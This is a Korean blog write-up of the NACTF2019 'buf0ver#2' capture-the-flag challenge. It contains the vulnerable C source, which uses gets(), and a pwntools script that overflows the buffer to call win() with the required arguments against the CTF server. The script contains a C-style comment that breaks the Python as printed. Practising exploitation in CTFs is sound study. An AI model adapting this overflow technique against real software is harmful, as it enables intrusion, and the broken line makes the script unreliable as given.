 ```yaml
---
layout: post
title: "NACTF2019 buf0ver#2"
tags: [nactf2019, buffer overflow, pwntools]
---
```


```
#include <stdio.h>
#include <stdlib.h>

void win(long long arg1, int arg2)
{
	if (arg1 != 0x14B4DA55 || arg2 != 0xF00DB4BE)
	{
		puts("Close, but not quite.");
		exit(1);
	}

	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}

```
vuln()을 버퍼오버플로우하면서 win()의 인자로 조건을 맞춰서 넘겨줘야한다.  
덤프를 보고 win()의 주소를 찾는다.  
`080491c2 <win>:`

![_config.yml]({{ site.baseurl }}/images/nactf2019/bufover2-stack.png)

```
#!/usr/bin/python
from pwn import *

p = remote("shell.2019.nactf.com", 31184)

win_addr = 0x80491c2
arg1 = 0x14b4da55
arg2 = 0xf00db4be

payload = "A"*28
payload += p32(win_addr)
payload += p32(win_addr+8)
payload += p64(arg1) //8바이트를 채워야하기때문에 64비트로 패킹
payload += p32(arg2)

print("[*] sending payload..")
p.sendline(payload)
print("[*] done.")

flag = p.recvall()
print("[*] output: " + flag)
p.clean()
p.close()
```
![_config.yml]({{ site.baseurl }}/images/nactf2019/bufover2.png)